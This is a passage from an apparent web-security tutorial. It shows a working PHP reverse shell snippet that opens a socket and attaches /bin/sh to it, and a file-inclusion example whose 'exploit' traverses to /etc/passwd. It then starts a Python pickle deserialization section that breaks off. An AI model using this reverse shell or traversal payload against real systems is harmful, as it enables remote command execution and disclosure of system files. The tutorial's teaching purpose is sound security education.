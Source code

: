 ### Example of a simple reverse shell in PHP:

```php
<?php
    $sock = fsockopen("127.0.0.1",1234);
    $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

### Type Juggling with Union Types

PHP 8 introduced union types, which allow a variable to be one of multiple specified types. However, improper validation of these types can lead to vulnerabilities, such as type juggling, which attackers can exploit to perform LFI or RFI attacks.

Example: Consider a function that processes file paths using union types. If the file paths aren't strictly validated, an attacker might manipulate them to include unintended files:

```php
<?php
// Potentially vulnerable function accepting union types
function openFile(string|array $filePath) {
    if (is_string($filePath)) {
        include $filePath; // Dangerous if $filePath is controlled by an attacker
    } elseif (is_array($filePath)) {
        foreach ($filePath as $file) {
            include $file; // Each element should be validated
        }
    }
}

// Exploit
$filePath = ["../../../etc/passwd"]; // Type juggling might lead to unintended inclusion
openFile($filePath);
```

In this example, an attacker could exploit type juggling by passing an array as an argument, which might lead to unintended file inclusions if each file path is not properly validated.

# Python Insecure Deserialization / `pickle` module

We have looked at so many PHP vulnerabilities in this session, but you shouldn't be left with the impression that PHP is the only vulnerable language.
In this section we will approach an insecure object deserialization in a Python web application.

## Python `pickle`

In Python, the `pickle` module lets you serialize and deserialize data.
Essentially, this means that you can convert a Python object into a stream of bytes and then reconstruct it (including the object’s internal structure) later in a different process or environment by loading that stream of bytes.

When consulting the Python docs for pickle one cannot miss the following warning:

